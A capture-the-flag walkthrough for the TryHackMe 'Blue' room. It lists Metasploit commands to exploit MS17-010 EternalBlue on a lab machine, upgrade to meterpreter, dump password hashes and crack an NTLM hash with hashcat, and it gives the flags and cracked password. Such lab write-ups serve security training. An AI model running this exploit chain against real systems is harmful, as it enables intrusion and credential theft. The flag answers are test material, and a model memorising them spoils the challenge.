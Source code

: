 
# 🏆 THM CTF Walkthrough: BLUE

## Table of Contents:
1. [Recon 🔍](#recon)
   - How many ports are open with a port number under 1000?
   - What is this machine vulnerable to?
2. [Gain Access 💻](#gain-access)
   - Exploitation Code Path
   - Setting Required Options
3. [Escalate 🚀](#escalate)
   - Convert Shell to Meterpreter
   - Migrate to New Process
4. [Cracking 🔓](#cracking)
   - Dumping Passwords
   - Cracking NTLM Hash
5. [Find Flags! 🎯](#find-flags)
   - Flag1
   - Flag2
   - Flag3

---

## Recon 🔍

### 1. How many ports are open with a port number under 1000? (Active Enumeration)
Run the following `nmap` scan:
```bash
nmap -Pn -A -sV 10.10.165.189
```

The open ports below 1000 are:

- **135/tcp** - Microsoft Windows RPC
- **139/tcp** - Microsoft Windows netbios-ssn
- **445/tcp** - Microsoft Windows SMB

Thus, there are **3** services running:
1. **msrpc** 🔐
2. **netbios-ssn** 🌐
3. **microsoft-ds** 🖥️

### 2. What is this machine vulnerable to? 🚨
The machine is vulnerable to **MS17-010**, which exploits a vulnerability in the SMB protocol known as **EternalBlue**.

---

## Gain Access 💻

### 1. Find the exploitation code we will run against the machine. What is the full path of the code?
Use `msfconsole` to search for **MS17-010**:
```bash
msf6 > search ms17-010
```

This will show the following relevant exploit:
```
exploit/windows/smb/ms17_010_eternalblue
```

### 2. Set up the exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set LHOST tun0
set RHOSTS 10.10.165.189
exploit
```

### 3. Show options and set the one required value. What is the name of this value?
The required option is **RHOSTS**, which is the target machine's IP address.

---

## Escalate 🚀

### 1. If you haven't already, background the previously gained shell:
```bash
ctrl + Z
```

### 2. Convert the shell to a meterpreter shell:
Search for the post module to upgrade the shell:
```bash
search shell_to
use post/multi/manage/shell_to_meterpreter
```

### 3. Set the required option and exploit:
```bash
show options
set SESSION 1
exploit
```

### 4. Migrate to another process:
Use the `migrate` command to stabilize the session:
```bash
ps
migrate <PROCESS_ID>
```

This will help ensure the session is moved to a more stable process. 🛠️

---

## Cracking 🔓

### 1. Dump password hashes with `hashdump`:
```bash
hashdump
```

The non-default user is **Jon**.

### 2. Crack the NTLM hash:
The NTLM hash is:
```
aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Use **hashcat** to crack the hash:
```bash
echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt
hashcat -m 1000 -a 0 hash.txt /path/to/wordlist.txt
```

The cracked password is: **alqfna22** 🔑

---

## Find Flags! 🎯

### 1. **Flag1**: Located at the system root.
```bash
cd C://
dir
type flag1.txt
```
Flag1 content: **flag{access_the_machine}** 💡

### 2. **Flag3**: Located in the Administrator's Documents folder.
```bash
cd Users/Jon/Documents
type flag3.txt
```
Flag3 content: **flag{admin_documents_can_be_valuable}** 📂

### 3. **Flag2**: Located in `System32/config`.
```bash
cd C:\Windows\System32\config
dir
type flag2.txt
```
Flag2 content: **flag{sam_database_elevated_access}** 🔒

---

## Conclusion 🏁

This walkthrough guides you through exploiting the **MS17-010 EternalBlue** vulnerability to gain access to a Windows machine, escalate privileges, dump passwords, crack hashes, and locate flags on the system. With persistence and the correct tools, lateral movement and privilege escalation are key to successfully solving the challenge. 🎉

---

📌 Created by c1ph3r1337 🕶️🔥
